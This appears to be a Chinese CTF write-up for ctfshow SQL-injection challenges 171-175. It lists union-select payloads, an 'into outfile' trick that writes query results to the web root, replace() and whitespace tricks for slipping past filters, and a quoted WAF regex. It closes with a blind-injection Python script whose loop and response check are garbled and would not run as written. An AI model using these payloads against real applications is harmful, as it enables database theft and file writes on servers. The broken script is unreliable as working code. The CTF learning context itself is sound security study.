


#前言
web 171-175
学到的知识
1.to_base64
有题目说到，如果返回值里面匹配到了flag，那么则表示错了。这个点虽然在解决这些题目上没有什么作用，但是还是get到了一个小tips，如果我们要想要的到了东西里面存在flag，我们可以将其进行转换，转成to_base64

2.union select
我以前一直都是 1’ union select 1,(select * from flag) –+
之类的，但是我们实际上可以使用 1’ union select username,password from 表名 where …. limit …–+
3.into outfile ‘/var/www/var/1.txt’
则我们就可以将我们查询到的结果写道了一个1.txt文件里面了

为什么要采用用这个做法呢？因为这道题太狗了，过滤了0-127的字符什么都输不出来
4.replace
就是说174嘛，他不是不让输出数字，那么我们就可以将他输出的数字进行转换
replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(password,’1’,’A’),’2’,’B’),’3’,’C’),’4’,’D’),’5’,’E’),’6’,’F’),’7’,’G’),’8’,’H’),’9’,’I’),’0’,’J’)
就这样子，就欧克了
表名列名可以用``抱起来，如果遇到那个空格过滤可以用这个
空格过滤还可以使用%09,%0a,%0b,%0c（制表符）
测试哪一点被过滤了，可以用简单的一段语句来测试 1’ or ‘a’=’a
有一道题目的注释符被过滤了，我灵机一动想到了1’union select 1,2,’3 嘿嘿
嘿嘿嘿，群主做的是知道了id才开始做的
function waf($str){
return preg_match('/ |\*|\x09|\x0a|\x0b|\x0c|\x0d|\xa0|\x00|\#|\x23|file|\=|or|\x7c|select|and|flag|into/i', $str);
}因为这道题目，我们可以看到这里的这个waf,emmmm,空格过滤，注释符过滤，into file过滤，select过滤，and，or过滤
所以只能考虑盲注
我在看群主的视频的时候，我真的是羡慕了，他python怎么跑的这么块，到我这里慢的要死。。。。。
因为该过滤的都被过滤了，所以我们可以考虑盲注
写一下脚本：
import requests
url='url'
flag=''
flagstr='{0123456789abcdefghijklmnopqrstuvwxyz-}'
payload='`ctfshow_user`where(substr(`pass`,{},1)regexp(\'{}\'))'
for i in range:
for c in flagstr:
data={
'tableName':payload.format(str(i),c)
}
rep=requests.post(url,data)
if(rep.text.find($user_count = 1;">0):
flag=flag+c
break
print(flag)